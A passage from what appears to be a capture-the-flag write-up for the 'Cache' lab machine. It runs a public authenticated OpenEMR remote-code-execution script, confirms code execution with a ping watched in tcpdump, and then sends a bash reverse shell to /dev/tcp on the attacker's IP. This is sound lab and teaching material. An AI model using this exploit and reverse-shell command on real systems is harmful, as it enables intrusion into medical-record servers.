     Started: Mon May 11 12:17:22 2020
    Stopped: Mon May 11 12:17:42 2020



### Authenticated Code Execution

#### POC

Now I can run the exploit script from searchsploit. I'll try to have
Cache ping me to test:



    root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'ping -c 1 10.10.14.47' http://hms.htb
     .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
    / .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
    | | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
    | | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
    \ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
     )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
    (_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                           
       ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                           
             Twitter : @Insecurity                       
             Site    : insecurity.sh                     

    [$] Authenticating with openemr_admin:xxxxxx
    [$] Injecting payload
    [$] Payload executed



In a separate window with `tcpdump` running, it works:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:35:26.704809 IP 10.10.10.188 > 10.10.14.47: ICMP echo request, id 7655, seq 1, length 64
    12:35:26.704882 IP 10.10.14.47 > 10.10.10.188: ICMP echo reply, id 7655, seq 1, length 64 



#### Shell

Now I'll get a shell by replacing the `ping` with a reverse shell:



    root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"' http://hms.htb                                                                
     .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
    / .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
    | | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
    | | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
    \ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
     )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
    (_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                           